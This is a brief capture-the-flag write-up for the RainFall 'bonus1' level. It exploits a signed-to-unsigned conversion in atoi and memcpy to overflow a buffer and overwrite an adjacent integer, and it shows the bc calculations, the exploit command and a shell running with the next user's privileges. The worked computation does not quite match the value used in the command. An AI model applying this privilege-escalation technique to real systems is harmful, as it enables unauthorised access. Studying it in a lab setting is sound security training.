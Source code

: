 # Bonus 1

Le programme a besoin de 2 paramètres, un entier inférieur à 10 et une chaîne qui sera copiée avec memcpy d'une taille du premier parametre fois 4. On peut donc faire un underflow sur le premier parametre qui sera parse avec atoi et ensuite donne a memcpy en 3eme parametre et multiplie par 4. Il y aura donc une conversion implicite d'int vers size_t

with gdb we find in the stack the position of the integer, just after the buffer
Calculate with bc
```
2147483648 / 4
536870912
536870912 - 10
536870902
536870902 * 2
1073741804
```
```
bonus1@RainFall:~$ ./bonus1 -1073741813 `python -c 'print("A" * 40 + "\x46\x4c\x4f\x57")'`
$ id
uid=2011(bonus1) gid=2011(bonus1) euid=2012(bonus2) egid=100(users) groups=2012(bonus2),100(users),2011(bonus1)
```
